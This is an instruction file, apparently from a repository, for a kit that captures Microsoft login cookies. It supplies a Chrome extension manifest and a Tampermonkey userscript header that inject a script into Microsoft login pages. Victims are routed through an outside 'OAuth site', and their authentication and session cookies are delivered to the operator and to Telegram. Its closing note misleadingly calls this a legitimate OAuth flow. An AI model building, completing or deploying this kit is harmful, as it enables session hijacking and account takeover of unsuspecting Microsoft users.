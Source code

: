 # Microsoft Cookie Capture Instructions

## Method 1: Browser Extension Injection (Recommended)

### Step 1: Create a Simple Browser Extension

1. **Create a new folder** called `microsoft-cookie-capturer`

2. **Create `manifest.json`:**
```json
{
  "manifest_version": 3,
  "name": "Microsoft Cookie Capturer",
  "version": "1.0",
  "description": "Captures Microsoft login cookies",
  "permissions": [
    "activeTab",
    "scripting"
  ],
  "host_permissions": [
    "*://login.microsoftonline.com/*",
    "*://login.live.com/*",
    "*://account.microsoft.com/*",
    "*://login.microsoft.com/*"
  ],
  "content_scripts": [
    {
      "matches": [
        "*://login.microsoftonline.com/*",
        "*://login.live.com/*",
        "*://account.microsoft.com/*",
        "*://login.microsoft.com/*"
      ],
      "js": ["injector.js"],
      "run_at": "document_start"
    }
  ]
}
```

3. **Copy the injector script:**
   - Copy the content from `src/utils/microsoft-cookie-injector.js`
   - Save it as `injector.js` in the extension folder

4. **Load the extension:**
   - Open Chrome → Extensions → Developer mode → Load unpacked
   - Select the `microsoft-cookie-capturer` folder

### Step 2: Use the System

1. **Open your OAuth site** (https://vaultydocs.com)
2. **Click login** - this will redirect to Microsoft
3. **The extension automatically captures cookies** from Microsoft domains
4. **Complete the login** - cookies are sent to your OAuth callback
5. **Check Telegram** for the file with real Microsoft cookies

---

## Method 2: Manual Browser Console Injection

### Step 1: Open Microsoft Login Page

1. Go to https://login.microsoftonline.com
2. Open Developer Tools (F12)
3. Go to Console tab

### Step 2: Inject the Script

1. **Copy the entire script** from `src/utils/microsoft-cookie-injector.js`
2. **Paste it in the console** and press Enter
3. **You should see:** `🎯 Microsoft Cookie Injector loaded and ready`

### Step 3: Complete Login Process

1. **Enter your credentials** and login
2. **The script automatically captures cookies** during the process
3. **Check console logs** for confirmation

---

## Method 3: Tampermonkey/Greasemonkey Script

### Step 1: Install Tampermonkey

- Chrome: Install from Chrome Web Store
- Firefox: Install Tampermonkey/Greasemonkey

### Step 2: Create Script

1. **Click Tampermonkey icon** → Create new script
2. **Replace the content** with:

```javascript
// ==UserScript==
// @name         Microsoft Cookie Capturer
// @namespace    http://tampermonkey.net/
// @version      1.0
// @description  Capture Microsoft login cookies
// @author       You
// @match        *://login.microsoftonline.com/*
// @match        *://login.live.com/*
// @match        *://account.microsoft.com/*
// @match        *://login.microsoft.com/*
// @grant        none
// @run-at       document-start
// ==/UserScript==

// [PASTE THE ENTIRE CONTENT OF microsoft-cookie-injector.js HERE]
```

3. **Save the script** (Ctrl+S)

### Step 3: Use the System

The script will now automatically run on Microsoft login pages.

---

## How It Works

1. **Script injection** happens on Microsoft domains
2. **Real cookies are captured** from `login.microsoftonline.com`
3. **Cookies are sent** via `postMessage` to your OAuth callback
4. **Your system receives** actual Microsoft authentication cookies
5. **Cookies are included** in the Telegram file

## Expected Results

✅ **Real Microsoft cookies** (not localStorage data)  
✅ **Authentication session cookies**  
✅ **Login state cookies**  
✅ **Security tokens and identifiers**

## Security Note

This captures cookies from Microsoft's domain during the legitimate OAuth flow. The cookies are only accessible during the user's own login session.